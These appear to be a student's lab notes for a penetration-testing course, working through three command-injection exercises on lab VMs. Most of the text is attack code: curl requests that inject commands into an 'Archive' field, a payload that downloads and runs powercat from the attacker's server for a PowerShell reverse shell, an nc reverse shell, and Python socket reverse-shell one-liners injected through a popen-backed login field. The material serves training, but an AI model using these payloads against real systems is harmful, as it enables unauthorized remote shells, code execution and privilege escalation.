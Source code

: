 
1. Follow the steps above and exploit the command injection vulnerability on VM #1 to obtain a reverse shell. Since the machine is not connected to the internet, you have to skip the step of cloning the repository from the beginning of this section. Find the flag on the Desktop for the _Administrator_ user.

```bash
# 192.168.123.189:8000
# My IP: 192.168.45.250


# Sending POST Data
curl -X POST --data 'Archive=ipconfig' http://192.168.123.189:8000/archive

# Looking at CMD or PowerShell
curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.123.189:8000/archive
	# Output is PowerShell

# Run file server
python -m http.server 80

# Copy powercat
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .

# Download file from server & run it
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell 

curl -X POST --data 'Archive=git%3BIEX%20%28New%2DObject%20System%2ENet%2EWebclient%29%2EDownloadString%28%22http%3A%2F%2F192%2E168%2E45%2E250%2Fpowercat%2Eps1%22%29%3Bpowercat%20%2Dc%20192%2E168%2E45%2E250%20%2Dp%204444%20%2De%20powershell' http://192.168.123.189:8000/archive

# Shell connects ;)
```
![[Pasted image 20250313203903.png]]


2. For this exercise the _Mountain Vaults_ application runs on Linux (VM #2). Exploit the command injection vulnerability like we did in this section, but this time use Linux specific commands to obtain a reverse shell. As soon as you have a reverse shell use the **sudo su** command to gain elevated privileges. Once you gain elevated privileges, find the flag located in the **/opt/config.txt** file.

```bash
# Target: 192.168.123.16:80

# Building the command: check if nc exists
curl -X POST --data 'Archive=git%3Bwhich%20nc' http://192.168.123.16:80/archive

# Reverse Shell:
curl -X POST --data 'Archive=git%3Bnc%20-c%20sh%20192.168.45.250%204444' http://192.168.123.16:80/archive
```

![[Pasted image 20250313204849.png]]


3. **Capstone Lab**: Start the _Future Factor Authentication_ application on VM #3. Identify the vulnerability, exploit it and obtain a reverse shell. Use **sudo su** in the reverse shell to obtain elevated privileges and find the flag located in the **/root/** directory.
**HINT**

4. Visit VM #3's webserver to find three fields on the login page.
5. Test various inputs like && to identify the command injection vulnerability.
6. Assume the back-end uses a vulnerable function like **eval()** or **popen()**: **popen(f'echo "test"')**

```bash
# IP: 192.168.123.16

# Tried to send data over JSON
curl -d '{"username":"tamer","username":"veute","ffa":"&&echo whoami"}' -H 'Content-Type: application/json' http://192.168.123.16/login

# The application just returns something super weird lmao
	# Username: N@NdkWzmN@NdkWzmN@NdkWzm
	# Password: N@NdkWzmN@NdkWzmN@NdkWz!!!!!!###!!!!!m
# This was a dead end.
```
![[Pasted image 20250313212146.png]]


```bash
# More interestingly, we see this line of code:
out = os.popen(f&#39;echo &#34;{ffa}&#34;&#39;).read()

# Decoded:
out = os.popen(f'echo "{ffa}"').read()

# Trying different outputs...
username=User&password=amer&ffa=idk";which sh "jaja""
	# This does output the content!

# Building a reverse shell
username=User&password=amer&ffa=idk";nc -c sh 192.168.45.250 4444 "jaja""
username=User&password=amer&ffa=idk"; dir; echo"jaja""

# Testing quite a lot of reverse shells... finally this one works
username=User&password=amer&ffa=:)"; python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.250",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'; echo "jaja""

# This one also works
username=User&password=amer&ffa=:)"; python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("192.168.45.250",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'; echo "jaja""

```

